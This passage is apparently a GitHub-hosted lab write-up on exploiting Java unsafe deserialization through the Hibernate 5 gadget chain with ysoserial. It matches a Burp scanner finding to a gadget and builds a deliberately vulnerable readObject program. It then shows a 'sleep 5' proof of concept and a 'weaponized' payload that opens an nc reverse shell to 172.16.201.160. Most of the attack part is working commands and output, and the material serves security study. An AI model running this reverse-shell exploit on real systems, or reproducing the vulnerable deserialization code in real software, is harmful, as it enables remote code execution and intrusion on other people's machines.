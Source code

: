 #### 5.1. Info

Burp finding - `High: Java Unsafe Deserialization, vulnerable library: Hibernate 5 (DNS) (encoded in Base64)`.

Hibernate 5 is interesting to exploit because it gives arbitrary method invocation.


#### 5.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Hibernate 5 (DNS)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'hibernate' | awk '{print $1}'`
# for i in $options; do java -Dhibernate5 -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate1
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate2
```
Note: this indicates that either payloads might work when `hibernate5` system property is set.

However, `Hibernate1.java` is the only file that checks for `hibernate5` system property.
```
if ( System.getProperty("hibernate5") != null ) {
	return new String[] {
		"org.hibernate:hibernate-core:5.0.7.Final",
		"aopalliance:aopalliance:1.0",
		"org.jboss.logging:jboss-logging:3.3.0.Final",
		"javax.transaction:javax.transaction-api:1.2"
	};
}
```
File: `https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Hibernate1.java`


#### 5.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:
```
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) Dependency chain for Hibernate 5:
```
# find ~/.m2 -regex ".*hibernate.*core.*5.0.7.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*aopalliance.*1.0.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*jboss.*logging.*3.3.0.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*javax.*transaction.*api.*1.2.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
```

c) Project structure - `/tmp/java_serial`:
```
$ tree
.
├── lib
│   ├── aopalliance-1.0.jar
│   ├── hibernate-core-5.0.7.Final.jar
│   ├── jboss-logging-3.3.0.Final.jar
│   └── jboss-transaction-api_1.2_spec-1.0.0.Final.jar
└── Main.java

1 directory, 5 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp `pwd`/lib/*: Main.java # in case classes from JAR file are imported in the Java program
```


#### 5.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation will delay the process as expected (however this will trigger a `NullPointerException`)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "sleep 5" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# time java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null

real	0m5.462s
user	0m0.680s
sys	0m0.068s
```


#### 5.5. Exploitation - part 2 (weaponized)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "nc 172.16.201.160 9191 -e /bin/bash" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null
# nc -nlvp 9191
```



